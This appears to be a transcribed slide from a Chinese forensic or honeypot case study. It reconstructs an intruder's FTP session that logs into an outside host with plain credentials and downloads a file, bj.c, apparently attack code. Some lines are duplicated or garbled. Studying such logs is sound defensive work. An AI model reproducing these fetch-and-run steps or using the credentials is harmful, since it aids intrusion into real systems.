

6.6.3 现场重建
“黑帽”不能获得权限，于是重试一遍，通过ftp连接到站点重新下载程序。

[root@apollo /]# ftp 24.112.167.35
Connected to 24.112.167.35
220 linux FTP server (Version wu-2.5.0(1) Tue Sep 21 16:48:12 EDT 1999) ready.
Name (24.112.167.35:twin): [root@apollo /]#  ftp 24.112.167.35
Connected to 24.112.167.35.
220 linux FTP server (Version wu-2.5.0(1) Tue Sep 21 16:48:12 EDT 1999) ready.
Name (24.112.167.35:twin): welek
331 Password required for welek.
Password:331 Password required for welek.
Password:password
230 User welek logged in.
Remote system type is UNIX.
Using binary mode to transfer files.

ftp>get bj.c
qulocal: bj.c remote: bj.c
200 PORT command successful.
u150 Opening BINARY mode data connection for bj.c (1011 bytes).
226 Transfer complete.
1011 bytes received in 0.134 secs (7.3 Kbytes/sec)
ftp>quit
221-You have transferred 1011 bytes in 1 files.
221-Total traffic for this session was 1422 bytes in 1 transfers.
221-Thank you for using the FTP service on linux.
221 Goodbye.